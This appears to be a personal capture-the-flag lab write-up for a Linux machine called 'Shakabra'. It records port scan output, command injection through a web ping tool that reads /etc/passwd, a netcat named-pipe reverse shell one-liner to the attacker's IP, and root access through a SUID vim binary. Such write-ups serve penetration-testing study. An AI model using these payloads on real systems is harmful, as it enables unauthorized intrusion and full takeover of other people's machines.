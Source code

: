 ```yaml
---
Alias: Shakabra
Date: 5/4/22
Platform: Linux
Difficulty: Easy
Tags:
Status: Finished
IP: 192.168.127.86
---
```


# {{Shakabra}}


# Resolution summary
- Found a connection tester tool running on port 80
- Added a semi colon 

## Improved skills
- Found adding a semi colon after a command will be treated a separate command the commands will be executed sequentially 

## Used tools
- nmap
- rustscan


---

# Information Gathering
Scanned all TCP ports:
```bash
rustscan --addresses 192.168.127.86 --ulimit 5000 -- -A -sC -Pn -sV -T 1500
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
0day was here ♥

[~] The config file is expected to be at "/home/brian/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 192.168.127.86:22
Open 192.168.127.86:80
[~] Starting Script(s)
[>] Running script "nmap -vvv -p {{port}} {{ip}} -A -sC -Pn -sV -T 1500" on ip 192.168.127.86
Depending on the complexity of the script, results may take some time to appear.
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
[~] Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-18 18:04 PDT
NSE: Loaded 155 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:04, 0.00s elapsed
Initiating Parallel DNS resolution of 1 host. at 18:04
Completed Parallel DNS resolution of 1 host. at 18:04, 0.01s elapsed
DNS resolution of 1 IPs took 0.01s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 18:04
Scanning 192.168.127.86 [2 ports]
Discovered open port 80/tcp on 192.168.127.86
Discovered open port 22/tcp on 192.168.127.86
Completed Connect Scan at 18:04, 30.08s elapsed (2 total ports)
Initiating Service scan at 18:04
Scanning 2 services on 192.168.127.86
Completed Service scan at 18:04, 6.34s elapsed (2 services on 1 host)
NSE: Script scanning 192.168.127.86.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:04
Completed NSE at 18:05, 4.86s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.32s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
Nmap scan report for 192.168.127.86
Host is up, received user-set (0.081s latency).
Scanned at 2022-10-18 18:04:35 PDT for 26s

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:b9:6d:35:0b:c5:c4:5a:86:e0:26:10:95:48:77:82 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDKxggEEcOcfAnY39JxZPtqfSeoP5ELSTfKdMZW1gwC5cdbN+n+rNZtzEFPJtRQrUGYntWi9OI642XAYf/w7EYnahMudH6sEkBBnycJB9mpMznx6j2woFqEC99hV2Kv+HrKBfUVH2ZottNDMTAeHmAQn38urRKTSw5XRL2lIHyjAlQuhBC9G0IOHSQevab1JO7QMS7RinkKMuK471IKEiGo6cs2qYl7s5/mbPzn74ItxZyjMaNreraKLzxxUv2rXO4D1KLJGH8hoHCdoueHenF0jA4mggOLtx33gi/Dwj65GZqz3up/93Rk3KFx9PDH81Wl/RMXzJPHObWTXFUgYCPR
|   256 a8:0f:a7:73:83:02:c1:97:8c:25:ba:fe:a5:11:5f:74 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOmK6n2750Zgk5TzwOOVaORuM6X+mZvgnDZ089sXvhfp5r09499qYQzThIXcaOuWpDmzP2e/eK27h5teQUyF+Bw=
|   256 fc:e9:9f:fe:f9:e0:4d:2d:76:ee:ca:da:af:c3:39:9e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAINPPEuspoT6EYlb7TZCsDgkEBtBHIlzl8yu089UQJsA8
80/tcp open  http    syn-ack Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:05
Completed NSE at 18:05, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.93 seconds

```

Enumerated open TCP ports:
```bash
80
22
```

Enumerated top 200 UDP ports:
```bash

```

---

# Enumeration
## Port 80 - Apache httpd 2.4.29

#### As port 80 was found to be open per nmap scan; I navigated to the boxes IP address and found the below webpage: 

![](Pasted%20image%2020221018181215.png)

#### As "127.0.0.1 was already populated in the "ping" bar I input "127.0.0.1" into it and clicked go and found the below ping results: 

![](Pasted%20image%2020221018181341.png)

#### I then typed ";cat /etc/passwd" (adding a semicolon at the end of 127.0.0.1) and found the below user "dylan" on the system: 

![](Pasted%20image%2020221018181441.png)
#Command_Injection 

#### Then typed "; which nc" and found the machine had nc installed:

![](Pasted%20image%2020221018181531.png)

![](Pasted%20image%2020221018181603.png)

---

# Exploitation
## Name of the technique
## Command injection from connection tester tool

#### I attempted to type the usual netcat one liner reverse shell syntax but didn't work. I then tried "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc [kali IP] [Listener Port] >/tmp/f" found in "pentestmonkey.net" but had to modify it to the following in order to get it to work: "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.53.200 80 >/tmp/f" (the modification I added was the "-f" after command "rm") 

#### Ran the syntax above on the connection tester tool and had a listener listening on my kali machine and received a reverse shell 

![](Pasted%20image%2020221018181728.png)

---

# Privilege Escalation
## Local Enumeration

#### Typed "find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null" to find SUID binaries and found the following "vim.basic" set as SUID bit: 
![](Pasted%20image%2020221018183948.png)


## Privilege Escalation vector
## VIM SUID Binary

#### Found "vim" in GTFOBins site and followed the instructions to run the binary and type colon to enter "enter command mode" and prepend py3 to the command as the machine only has python3 and typed ":py3 import os; os.exec("/bin/sh", "sh", "-pc", "reset; exec sh -p")" and then enter and then when asked "which terminal?" Enter "xterm" and then received a root shell: 

![](Pasted%20image%2020221018184110.png)

![](Pasted%20image%2020221018184146.png)

![](Pasted%20image%2020221018184222.png)
#VIMsuidBinary
---

